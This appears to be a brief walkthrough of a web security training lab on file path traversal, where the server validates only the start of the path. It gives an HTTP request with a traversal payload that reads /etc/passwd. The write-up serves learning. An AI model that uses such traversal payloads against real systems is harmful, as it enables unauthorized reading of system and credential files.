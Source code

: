 # File path traversal, validation of start of path

## This lab contains a [file path traversal] vulnerability in the display of product images.

## The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.

## To solve the lab, retrieve the contents of the `/etc/passwd` file.

---

### step 1

GET /image?filename=/var/www/images/65.jpg HTTP/1.1

### step2

GET /image?filename=/var/www/images/../../../etc/passwd
